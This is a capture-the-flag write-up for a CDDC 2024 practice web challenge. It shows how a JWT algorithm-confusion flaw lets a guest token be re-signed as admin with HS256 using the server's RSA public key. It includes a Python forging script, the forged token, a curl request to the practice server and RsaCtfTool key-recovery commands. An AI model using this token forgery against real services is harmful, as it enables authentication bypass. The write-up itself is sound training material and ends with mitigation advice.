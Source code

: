 ```yaml
---
description: >-
  The Main challenge is from CDDC 2024 Practice Practice round. Go try it first
  before you read this.
---
```


# JWT Challenge

We have learnt about JWT, but what about the attack of it?

## Can you compromise this?

{% file src="../../.gitbook/assets/web4_so_dizzy.zip" %}

## Setup

```bash
# Unzip the file
unzip web4_so_dizzy.zip
cd web4_so_dizzy

# Start the flask server on your own host/VM
python -m main.py

# Now just use it the way you would a server :)

```

If CDDC practice machine is still up, here is the initial site:&#x20;

{% embed url="http://47.128.156.184:10008/" %}

<figure><img src="../../.gitbook/assets/Pasted image 20240506225257.png" alt=""><figcaption></figcaption></figure>

There are 2 options, to check in via admin or guest, when we click on either, we see this:&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506225244.png" alt=""><figcaption><p>A hint at the site you need to visit for token</p></figcaption></figure>

So visiting http://47.128.156.184:10008/getcookie will supply the user with a cookie:&#x20;

Guest Token:

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.ATWEP-3TalFgZ0NavDYr8h7at_9n-jxo9nVNuLvMdIx5xKeTTvrAd9Z22vGh87MFXy5vBFfBG4h6b7_ef9yqzJpBy-mdFGNXkg8TbywVJ_bJDzNFcSfv02Sxya9L9Z_1LwACyKpZFVsFuqmltgImmMb07I0j1_J4NpwcnYDlbSev6nhLJ8prsXiIScXLLr4GRniIgkR8AwnI1pAbqb0RqxsC-cNTBbPrV7zcd3dg3X1ASbBdKLh-uCJhDAFUsEWd2eD5wm4EGCalocZLercz_sDGMF9MCUKKt2tlPnh5snCMd3VIYIsKIKaaxwqh2nTgjYQT2Qyt5UFmHKIvqWcr5g
```

Translates to:

```
Headers = {
  "alg": "RS256",
  "typ": "JWT"
}

Payload = {
  "user": "guest"
}

Signature = "ATWEP-3TalFgZ0NavDYr8h7at_9n-jxo9nVNuLvMdIx5xKeTTvrAd9Z22vGh87MFXy5vBFfBG4h6b7_ef9yqzJpBy-mdFGNXkg8TbywVJ_bJDzNFcSfv02Sxya9L9Z_1LwACyKpZFVsFuqmltgImmMb07I0j1_J4NpwcnYDlbSev6nhLJ8prsXiIScXLLr4GRniIgkR8AwnI1pAbqb0RqxsC-cNTBbPrV7zcd3dg3X1ASbBdKLh-uCJhDAFUsEWd2eD5wm4EGCalocZLercz_sDGMF9MCUKKt2tlPnh5snCMd3VIYIsKIKaaxwqh2nTgjYQT2Qyt5UFmHKIvqWcr5g"
```

We see the algo used was "RS256" which is RSA with SHA256, means the key is asymmetric.

We have a public key from http://47.128.156.184:10008/api/jwt

```
{"public_key":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAiErXyh99IXoui0ua+QeP\nESzg3AhM4euZ1+/WCOHTsyeiY65veUrFUENBAUk8xVkv8dDqabPD9YybWCDE75Fn\nZyKtVOUOtfAJNGRbcUApQgMdbh3gnNeC9wELbw2AjN/wQMuKpbWBdXq7KZ6Fe3FG\ncd+65CVNcKKIam3Y7S6vDnq5TBgDGc/D1nQnOIdh9D7Z7ndGzqPSen3HoMhiKZlw\n27Vguq7n0c7JRqzazy+hLWigCd8cUpiu+1ZadnqGWtOD3ts+pbWrc5Q0mPpmEXST\nKU8CtSSzNPTMhZrt9mCo/UyX8p3wz+M4t+qVMuHmqbA7TGzGiToXyYBXuUrbj+3v\nLQIDAQAB\n-----END PUBLIC KEY-----"}
```

Public key:

```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAiErXyh99IXoui0ua+QeP
ESzg3AhM4euZ1+/WCOHTsyeiY65veUrFUENBAUk8xVkv8dDqabPD9YybWCDE75Fn
ZyKtVOUOtfAJNGRbcUApQgMdbh3gnNeC9wELbw2AjN/wQMuKpbWBdXq7KZ6Fe3FG
cd+65CVNcKKIam3Y7S6vDnq5TBgDGc/D1nQnOIdh9D7Z7ndGzqPSen3HoMhiKZlw
27Vguq7n0c7JRqzazy+hLWigCd8cUpiu+1ZadnqGWtOD3ts+pbWrc5Q0mPpmEXST
KU8CtSSzNPTMhZrt9mCo/UyX8p3wz+M4t+qVMuHmqbA7TGzGiToXyYBXuUrbj+3v
LQIDAQAB
-----END PUBLIC KEY-----
```

Checking the source code they provided, this is how the server side validates token, so do you see what is wrong with it?&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506231933 (1).png" alt=""><figcaption><p>From main.py</p></figcaption></figure>

There is no validation!

If anything is modified on the algo section of the Headers, the `jwt.decode` will process it using that algorithm, this vulnerability is important to note since we can technically just modify this field in the JWT using HMAC, resign the token with the public key, send it over, the server uses the public key to decrypt the signature, and see our information sent anyways.

Indicated in the documentation of this library is the following:\
"This decoding method is insecure. By default `jwt.decode` parses the alg header. This allows symmetric macs and asymmetric signatures. If both are allowed a signature bypass described in CVE-2016-10555 is possible."&#x20;

### For more information along with mitigation:&#x20;

{% embed url="https://docs.authlib.org/en/latest/jose/jwt.html" %}

We also need to modify the user from user to admin, we can achieve this using simple python code as follows:

```python
from authlib.jose import jwt

# Your public key
public_key = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAiErXyh99IXoui0ua+QeP\nESzg3AhM4euZ1+/WCOHTsyeiY65veUrFUENBAUk8xVkv8dDqabPD9YybWCDE75Fn\nZyKtVOUOtfAJNGRbcUApQgMdbh3gnNeC9wELbw2AjN/wQMuKpbWBdXq7KZ6Fe3FG\ncd+65CVNcKKIam3Y7S6vDnq5TBgDGc/D1nQnOIdh9D7Z7ndGzqPSen3HoMhiKZlw\n27Vguq7n0c7JRqzazy+hLWigCd8cUpiu+1ZadnqGWtOD3ts+pbWrc5Q0mPpmEXST\nKU8CtSSzNPTMhZrt9mCo/UyX8p3wz+M4t+qVMuHmqbA7TGzGiToXyYBXuUrbj+3v\nLQIDAQAB\n-----END PUBLIC KEY-----"

def gentoken(key):
    header = {"alg": "HS256"}
    payload = {"user": "admin"}
    token = jwt.encode(header, payload, key)
    return token

token = gentoken(public_key_pseudo)
print(token)
```

The output will be this token:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.IX3MZqrvRdDMW00Il83c8KXuPRiXQ7rX5sq9-CqSWAY
```

Check with JWT burp extension to see if the signature is verified:&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506212518.png" alt=""><figcaption><p>Using JSON web Tokens extension of Burpsuite, we can verify our token is working</p></figcaption></figure>

Extension:

{% embed url="https://github.com/portswigger/json-web-tokens" %}

Since it is verified, there should be no issue on the server side, we can curl it to see our flag:

```bash
curl --cookie "session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.IX3MZqrvRdDMW00Il83c8KXuPRiXQ7rX5sq9-CqSWAY" http://47.128.156.184:10008/post/1
```

And bypassed!

&#x20;![](<../../.gitbook/assets/Pasted image 20240506212454 - Copy (1).png>)

## HMAC Attack

If the situation was different, and the token was just using HMAC from the start, getting a hold of the symmetric key would mean game over for the server, since we would already be able to resign the JWT and send it to the server.

## Small key RSA SHA256

If the public key was not as big as the current, the private key could possibly be recovered using the RsaCtfTool

We try to get the private key from the public key

```bash
git clone https://github.com/RsaCtfTool/RsaCtfTool.git
cd RsaCtfTool 
pip3 install -r requirements.txt

python3 RsaCtfTool.py --publickey ../public.pem --private
```

If it is recoverable, the private key will show:&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506235237.png" alt=""><figcaption><p>Source: https://ctftime.org/writeup/30541</p></figcaption></figure>

Which you can use to resign the token after modification.

### Questions to ponder:

* If you were the developer, how would you have better secured the code, give a simple snippet to show how you would have done it.
* What other forms of JWT implementations are there, and how are they better than just implementing JWT by itself?

### Conclusion

It is important to use validation for all your methods with regards to authentication, and use of strong keys are recommended, and do not expose your keys easily.

#### Author: [`Beckham`](https://github.com/Ninjarku)🐱‍👤
